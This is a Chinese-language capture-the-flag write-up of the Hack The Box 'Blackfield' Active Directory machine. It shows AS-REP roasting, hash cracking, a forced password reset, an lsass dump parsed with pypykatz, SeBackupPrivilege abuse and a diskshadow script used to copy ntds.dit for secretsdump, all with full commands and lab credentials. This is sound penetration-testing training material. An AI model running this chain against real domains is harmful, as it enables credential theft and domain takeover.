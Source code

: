 ```yaml
---
title: Hackthebox-Blackfield-Windows_Active
date: 2025-05-13 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```




# 信息收集

## nmap

![image-20250512110303469](./Blackfield/image-20250512110303469.png)

## ldapsearch

![image-20250512112158150](./Blackfield/image-20250512112158150.png)

```
DomainDnsZones.BLACKFIELD.local
ForestDnsZones.BLACKFIELD.local
```

## smb

`smbmap -H 10.10.10.192 -u null` ，匿名可以读取`Profiles`和`IPC`

![image-20250513161438718](./Blackfield/image-20250513161438718.png)

成功连接到后有很多空文件夹,将空文件夹导出作为用户名，看看是否有不需要Kerberos 认证的

![image-20250513161618503](./Blackfield/image-20250513161618503.png)

## AS-REP Roasting攻击

```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user ; done | teegetnpusers
```

![image-20250512145341889](./Blackfield/image-20250512145341889.png)

```
hashcat -m 18200 -a0 password.txt /usr/share/wordlists/rockyou.txt
```

![image-20250512145326524](./Blackfield/image-20250512145326524.png)

```
#00^BlackKnight
```

使用该用户去尝试smb，winrm是否可以登陆

```
smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
```

![image-20250512150358580](./Blackfield/image-20250512150358580.png)

smb有其他可以读的目录，但是都没有有用信息

使用bloodhound-python读取域信息，然后导入bloodhound，使用bloodhound-python该py脚本读取到的信息建议导入到4.2或4.3版本的bloodhound中，其他版本可能会导入失败

```
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns
10.10.10.192 -c DcOnly
```

![image-20250512152229318](./Blackfield/image-20250512152229318.png)

`support`用户对`audit2020`有强制修改密码的权限,现在知道support的密码，尝试修改audit2020的密码

![image-20250512152653172](./Blackfield/image-20250512152653172.png)

修改成功，密码有复杂度要求，修改时需要注意

然后使用audit2020用户访问smb的forensic目录

![image-20250513165325429](./Blackfield/image-20250513165325429.png)

![image-20250513165337777](./Blackfield/image-20250513165337777.png)

`mimikatz`就是从`lsass.DMP`中转储明文凭证和hash值，所以将该zip下载到本地，但是因为网速问题下载失败，可以尝试挂载到本地目录，然后copy出来

linux下可以使用pypykatz工具来转储这个文件

![image-20250512175713669](./Blackfield/image-20250512175713669.png)

```
svc_backup：9658d1d1dcd9250115e2205d9f48400d
```

对该用户进行smb和winrm测试，winrm可以远程连接（密码使用NT值），远程连接之后就可以得到user.txt

![image-20250513103138134](./Blackfield/image-20250513103138134.png)

# 提权

该用户有SeBackupPrivilege，并且属于Backup Operators组

<font color=green>他们可以提取用户通常无法访问的文件和目录。属于该组的权限允许用户备份任何文件，但是，一旦文件被打开用于读取访问，备份操作员可以将其重定向到任何位置。</font>>

![image-20250513170740551](./Blackfield/image-20250513170740551.png)

![image-20250513170836948](./Blackfield/image-20250513170836948.png)

可以使用该权限来读取想读取的文件

下载所需要使用的文件https://github.com/giuliano108/SeBackupPrivilege.git

![image-20250513110908007](./Blackfield/image-20250513110908007.png)

![image-20250513111514423](./Blackfield/image-20250513111514423.png)

![image-20250513111526180](./Blackfield/image-20250513111526180.png)

![image-20250513111540561](./Blackfield/image-20250513111540561.png)

![image-20250513111558796](./Blackfield/image-20250513111558796.png)

![image-20250513111607315](./Blackfield/image-20250513111607315.png)

无权读取root.txt，读取了notes.txt，root.txt可能是加密的

##  获取ntds.dit

接下来想办法获取 `ntds.dit`文件，该文件存放所有密码哈希的数据库，但是是无法直接读取的，因为当目标机器运行时，该文件保持被使用状态，这使得无法使用常规方法复制。因此，为了绕过此限制，我们需要使用 diskshadow 功能。这是一个内置的 Windows 功能，允许我们创建一个当前正在使用的驱动器的副本。

diskshadow可以以命令的形式运行文件中的内容，逐行运行，脚本内容：

文章建议在 C:\windows\system32下运行，有的用户可能没有该目录下的可写权限（运行时可以将文件放在其他目录），运行以下命令就会失败，

```
set context persistent nowriters
add volume c: alias df
create
expose %df% z:
```

可以指定创建文件的目录

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```

在上传到windows时需要进行一下`unix2dos`转码

运行命令：`diskshadow /s c:\programdata\vss.dsh`

![image-20250513153956559](./Blackfield/image-20250513153956559.png)

然后将ntds.dit和system备份即可

```
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit C:\Users\svc_backup\Desktop
reg.exe save hklm\system  C:\Users\svc_backup\Desktop

备份到指定目录，然后下载到本地
```

 然后导出hash

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```

![image-20250513162016928](./Blackfield/image-20250513162016928.png)

![image-20250513162213589](./Blackfield/image-20250513162213589.png)